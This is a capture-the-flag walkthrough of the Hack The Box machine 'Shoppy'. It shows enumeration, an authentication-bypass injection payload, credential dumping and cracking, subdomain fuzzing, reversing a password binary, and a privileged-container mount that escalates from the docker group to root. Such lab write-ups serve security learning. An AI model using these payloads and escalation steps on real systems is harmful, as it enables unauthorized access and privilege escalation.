

# Shoppy

<figure><figcaption></figcaption></figure>

## Overview

Shoppy is an easy machine with an SQL injection to get started with the user, and then some subdomain fuzzing leads us the an ssh login. Then, we use a docker privilege escalation trick that lets us read the root flag.

## Enumeration

### Nmap

```
┌──(kali㉿kali)-[~]
└─$ cat htb/shoppy/shoppy.nmap
...
Discovered open port 80/tcp on 10.10.11.180
Discovered open port 22/tcp on 10.10.11.180
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like we have a http://shoppy.htb web service running, I'll take a look at it while running gobuster and ffuf in the background.

```
┌──(kali㉿kali)-[~/htb/shoppy]
└─$ gobuster dir -u shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                      
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/24 16:36:44 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
/exports              (Status: 301) [Size: 181] [--> /exports/]
```

### HTTP Enumeration

<figure><figcaption></figcaption></figure>

This looks pretty standard for a webpage, I'll navigate to some webpages in hopes of finding either a login page, unintentional admin area, or evidence of a vulnerable application. I used the usual candidates - /admin, /robots.txt, /login, /version. And we hit gold with /admin! We got a login page.

<figure><figcaption></figcaption></figure>

### SQL Injection

The issue is, we don't have any credentials, and trying default credentials gets us nowhere. We'll need to trick the application into thinking we are the admin user.

I noticed earlier when I was traveling to web directories that didn't exist, I was getting a "Cannot GET /\<directory>". This hints at a node.js application, which is likely built on top of MongoDB or MySQL3. Both lead into some kind of SQL injection here.

To do the injection, we need to kind of guess what the request is on the SQL side of things. For example, it might look like SELECT \* FROM USERS WHERE USERNAME=='input' AND PASSWORD=='input';. This is interesting, because if our input is something like the following: admin'||'1'=='1, the statement will look like SELECT \* FROM USERS WHERE USERNAME=='admin' || '1' == '1' AND PASSWORD=='input', which evaluates to true no matter what. Therefore, we can put our username as  admin'||'1'=='1 and our password as something arbitrary to trick the database into thinking we are authorized.

.png>)

We're in.

<figure><figcaption></figcaption></figure>

Navigating to the "Search for users" button, since it's the only thing we really have up to here, gives us another prompt, asking to specify a user.

<figure><figcaption></figcaption></figure>

I'll throw in admin to see what it returns.

<figure><figcaption></figcaption></figure>

So we've got a json return that tells us the username and the password. This is getting interesting, since we've now got credentials and a possible password for the admin. However, putting this password into crackstation yields no results, so I won't bother trying to crack it right now.

Instead, I'll use the same SQL injection payload as before, to hopefully leak all the users and passwords.

<figure><figcaption></figcaption></figure>

Sending it and downloading the export gives us exactly what we want! We got a josh user and a hash. This one we can crack in crackstation, which yields the password remembermethisway.

<figure><figcaption></figcaption></figure>

But trying to ssh into josh with that password doesn't let us in, so we've got these credentials but no way to use them. Right?(Logging into the application with Josh's credentials doesn't change anything, if you were curious).

## Getting a User&#x20;

But take a look at the ffuf output below.

```
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://shoppy.htb/ -H "HOST: FUZZ.shoppy.htb" -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 5

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/
v1.5.0 Kali Exclusive <3
________________________________________________

:: Method           : GET
:: URL              : http://shoppy.htb/
:: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
:: Header           : Host: FUZZ.shoppy.htb
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
:: Filter           : Response words: 5
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 44ms]
:: Progress: [100000/100000] :: Job [1/1] :: 917 req/sec :: Duration: [0:01:34] :: Errors: 0 ::
```

We've got a subdomain! Adding it to /etc/hosts and going it yields another login page of some kind.

<figure><figcaption></figcaption></figure>

Now, we can put in josh's credentials and successfully log in to find some kind of Discord-Slack hybrid.

<figure><figcaption></figcaption></figure>

Browsing a couple channels quickly points us to #Deploy-Machine, which has some credentials we might actually be able to use for ssh.

<figure><figcaption></figcaption></figure>

Also take note of that docker message, we're going to need that later.

We can ssh into the jaeger user and get our first shell!

```
┌──(kali㉿kali)-[~/htb/shoppy]
└─$ ssh jaeger@10.10.11.180             
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 24 16:41:00 2023 from 10.10.14.18
jaeger@shoppy:~$ ls -ltr
total 44
drwxr-xr-x 2 jaeger jaeger 4096 Jul 22  2022 Videos
drwxr-xr-x 2 jaeger jaeger 4096 Jul 22  2022 Templates
drwxr-xr-x 2 jaeger jaeger 4096 Jul 22  2022 Public
drwxr-xr-x 2 jaeger jaeger 4096 Jul 22  2022 Pictures
drwxr-xr-x 2 jaeger jaeger 4096 Jul 22  2022 Music
drwxr-xr-x 2 jaeger jaeger 4096 Jul 22  2022 Downloads
drwxr-xr-x 2 jaeger jaeger 4096 Jul 22  2022 Documents
drwxr-xr-x 2 jaeger jaeger 4096 Jul 22  2022 Desktop
-rwxr--r-- 1 jaeger jaeger  130 Jul 22  2022 shoppy_start.sh
drwxr-xr-x 7 jaeger jaeger 4096 Jul 23  2022 ShoppyApp
-rw-r----- 1 root   jaeger   33 Jan 24 16:27 user.txt
jaeger@shoppy:~$ cat user.txt
7890ca1e126e3420e5d856fe6dbe5278
jaeger@shoppy:~$ 
```

## Privilege Escalation

I like to run sudo -l first to see if I can run any programs as sudo and escalate with that.

```
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$ 
```

Looks like we've got a program we can run in the /home/deploy folder. I'll go to that directory and transfer the file to my host machine to take a look.

```
┌──(kali㉿kali)-[~]
└─$ scp jaeger@10.10.11.180:/home/deploy/password-manager .
```

You could also host a python http server on the target machine, and wget it that way.

I'll open up ghidra(because the file is an executable binary) and import the file as well as analyze it.

<figure><figcaption></figcaption></figure>

So it looks like the binary file asks you for a password, then compares it to some other string. I can also see that we are constructing the string character by character, with the += operator, and since we can read the characters, it's trivial to determine that the password is Sample.&#x20;

Going back to the ssh session and submitting Sample yields us another set of credentials!

```
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: 
$ ls
creds.txt  password-manager  password-manager.cpp
$ bash
deploy@shoppy:~$ 
```

So we're in the deploy user now, but the box doesn't let us run sudo -l on this user.

```
deploy@shoppy:~$ sudo -l
[sudo] password for deploy: 
Sorry, user deploy may not run sudo on shoppy.
```

However, if we run the id command, we can see that we are a part of the docker group.

```
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

There's a couple tricks we can do with this, and I'm going to use [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation), which explains this all really well and is definitely worth a read. But the basic idea is that I'll run the docker, which runs as root, and mount the original file system on my own so I can access basically everything, since I'm the root user. Then I just read the root flag and complete this box.

```
deploy@shoppy:~$ docker run --rm -it --privileged alpine /bin/sh
/ # mkdir -p /mnt/jsquared
/ # mount /dev/sda1 /mnt/jsquared
/ # cd /mnt/jsquared/
/mnt/jsquared # cat root/root.txt
429f53ce048004f7b128da89359a7631
/mnt/jsquared # 

```
